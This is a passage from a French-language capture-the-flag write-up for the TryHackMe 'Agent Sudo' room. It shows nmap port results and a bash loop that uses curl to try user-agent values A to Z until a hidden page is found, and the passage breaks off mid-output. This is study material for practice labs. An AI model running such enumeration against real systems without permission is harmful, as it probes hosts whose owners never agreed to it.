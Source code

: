 **How many open ports?**
Les résultats de nmap nous montre 3 ports ouverts.  
-Service ftp port 21   
-Service ssh port 22  
-service http port 80 

Réponse : 3  

**How you redirect yourself to a secret page?**
```bash
curl -A "R" -L http://agent-sudo.thm
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
<!DocType html>
<html>
<head>
	<title>Annoucement</title>
</head>

<body>
<p>
	Dear agents,
	<br><br>
	Use your own <b>codename</b> as user-agent to access the site.
	<br><br>
	From,<br>
	Agent R
</p>
</body>
</html>
```
On modifie l'user agent pour voire la page secrete.  

**What is the agent name?**
```bash
tim@kali:~/Bureau/tryhackme/write-up$ for lettre in {A..Z};do echo "${lettre}";curl -A "${lettre}" -L http://agent-sudo.thm ;done 
A

<!DocType html>
<html>
<head>
	<title>Annoucement</title>
</head>

<body>
<p>
	Dear agents,
	<br><br>
	Use your own <b>codename</b> as user-agent to access the site.
	<br><br>
	From,<br>
	Agent R
</p>
</body>
</html>
B

<!DocType html>
<html>
<head>
	<title>Annoucement</title>
</head>

<body>
<p>
```